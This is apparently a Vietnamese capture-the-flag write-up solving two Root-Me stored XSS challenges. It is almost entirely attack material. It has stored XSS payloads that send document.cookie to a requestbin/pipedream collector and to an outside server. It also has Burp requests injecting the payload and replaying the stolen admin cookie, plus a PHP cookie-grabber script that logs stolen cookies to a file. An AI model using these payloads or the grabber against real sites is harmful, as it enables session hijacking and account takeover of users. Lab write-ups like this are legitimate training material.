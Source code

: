 
# XSS - Stored 2

- Vào `https://requestbin.com` tạo url 

<img src="https://i.imgur.com/XrKVfCv.png">

```https://enuu88fkyfctq.x.pipedream.net/```

- XSS 

    + payload 

        ```
        "><script>document.write(%22<img src=https://enuu88fkyfctq.x.pipedream.net/?%22.concat(document.cookie.replace(%22 %22,%22&%22)).concat(%22 />%22))</script>
        ```
    + burp

        ```
        POST /web-client/ch19/ HTTP/1.1
        Host: challenge01.root-me.org
        Connection: keep-alive
        Content-Length: 37
        Cache-Control: max-age=0
        Origin: http://challenge01.root-me.org
        Upgrade-Insecure-Requests: 1
        Content-Type: application/x-www-form-urlencoded
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
        Referer: http://challenge01.root-me.org/web-client/ch19/
        Accept-Encoding: gzip, deflate
        Accept-Language: en
        Cookie: status=invite"><script>document.write(%22<img src=https://enuu88fkyfctq.x.pipedream.net/?%22.concat(document.cookie.replace(%22 %22,%22&%22)).concat(%22 />%22))</script>; uid=wKgbZF1JI32VwTJeGRs5Ag==

        message=nguyen+van+minh&titre=minhkma
        ```
        <img src="https://i.imgur.com/GE1p1Mh.png">
    
    + ADMIN_COOKIE:

        ```
        SY2USDIH78TF3DFU78546TE7F
        ```

- burp

    ```
    POST /web-client/ch19/?section=admin HTTP/1.1
    Host: challenge01.root-me.org
    Connection: keep-alive
    Content-Length: 37
    Cache-Control: max-age=0
    Origin: http://challenge01.root-me.org
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Referer: http://challenge01.root-me.org/web-client/ch19/
    Accept-Encoding: gzip, deflate
    Accept-Language: en
    Cookie: status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F

    message=nguyen+van+minh&titre=minhkma
    ```

    <img src="https://i.imgur.com/NTcICjU.png">

# XSS - Stored 1

- Máy public 

    ```
    [root@mail html]# pwd
    /var/www/html
    [root@mail html]# cat grabber.php 
    <?php
    $cookie = $_GET['c'];
    $fp = fopen('cookies.txt', 'a+');
    fwrite($fp, 'Cookie:' .$cookie.'\r\n');
    fclose($fp);
    ?>
    [root@mail html]#
    ```
- XSS 

    ```
    <script>document.location='http://vietkubers.vn/grabber.php?c='+document.cookie</script>
    ```

- flag

    ```
    [root@mail html]# cat cookies.txt 
    Cookie:ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6
    ```